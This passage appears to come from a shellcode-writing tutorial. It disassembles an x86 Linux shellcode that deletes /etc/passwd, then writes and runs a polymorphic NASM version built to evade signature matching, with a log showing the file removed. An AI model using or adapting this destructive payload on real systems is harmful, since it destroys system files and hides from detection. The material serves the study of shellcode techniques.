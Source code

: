 ```bash
   0x804a047 <shell+7>: xor    edx,edx
   0x804a049 <shell+9>: mov    al,0xa
   0x804a04b <shell+11>:  mov    ebx,esi
   0x804a04d <shell+13>:  int    0x80
   0x804a04f <shell+15>:  mov    al,0x1
   0x804a051 <shell+17>:  int    0x80
   0x804a053 <shell+19>:  call   0x804a042 <shell+2>
   0x804a058 <shell+24>:  das    
   0x804a059 <shell+25>:  gs je  0x804a0bf
   0x804a05c <shell+28>:  das    
   0x804a05d <shell+29>:  jo     0x804a0c0
   0x804a05f <shell+31>:  jae    0x804a0d4
   0x804a061 <shell+33>:  ja     0x804a0c7
gdb-peda$
```
  
So we can see a jmp/call/pop technique setting the string for the syscall **0xa** (int unlink(const char *pathname);). Then a syscall to the exit function. Debugging just after the **pop esi**:  
```bash
gdb-peda$ x/s $esi
0x804a058 <shell+24>: "/etc/passwd"
```
  
Let's create our polymorphic shellcode:  
```nasm
global _start

section .text
_start:
    jmp short here

me:
    pop ebx          ; Directly pop the @ of /etc/passwd into ebx

    xor ecx,ecx
    mul ecx          ; This instruction will cause both EAX and EDX to become zero
    
    mov cl,0x1
    mov al,0xb
    sub al,cl        ; Equivalent to mov al,0xa
    int 0x80         ; int unlink(const char *pathname);
    
    mov al,cl        ; Equivalent to mov al,0x1
    int 0x80         ; void _exit(int status);
    call me

here:
    call me
    path db "/etc/passwd"
```
  
Let's run it:  
```bash
# touch /etc/passwd
# ./compile.sh unlink_polymorphic && ./unlink_polymorphic
[+] Assembling with Nasm ... 
[+] Linking ...
[+] Done!
# ls /etc/passwd
ls: impossible d'accéder à '/etc/passwd': Aucun fichier ou dossier de ce type
```  
  